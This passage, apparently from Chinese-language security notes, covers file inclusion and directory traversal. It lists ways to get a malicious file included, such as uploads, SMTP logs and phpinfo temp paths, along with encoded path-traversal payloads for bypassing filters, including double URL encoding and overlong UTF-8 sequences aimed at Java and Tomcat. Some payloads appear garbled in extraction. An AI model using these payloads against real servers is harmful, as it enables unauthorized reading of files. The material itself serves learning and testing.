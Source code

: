 - 暴力猜解
- phpinfo php varirables获取上传文件的存储路径和临时文件名

##### 上传文件包含

```
很多网站通常会提供文件上传功能，配合上传文件漏洞，访问上传的文件
1
```

##### 其他包含

- SMTP日志
- xss

#### 绕过方式

##### 目录穿越

```
使用 ../../ 来返回上一目录
1
```

##### 编码绕过…/过滤

- url编码

> ` ../`
> %2e%2e%2f
> …%2f
> %2e%2e/
>
> `..\`
> %2e%2e%5c
> …%5c
> %2e%2e\

- 二次编码绕过（服务端额外做了一次URL解码，为了方便utf-8编码）

> `../`
> %252e%252e%252f
> `..\`
> %252e%252e%255c

- 容器/服务端编码绕过

> ```
> ../
> ..%c0%af
> 注：Why does Directory traversal attack %C0%AF work?
> 
> %c0%ae%c0%ae/
> 注：java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）
> Apache Tomcat Directory Traversal
> 123456
> ..\
> ..%c1%9c
> ```
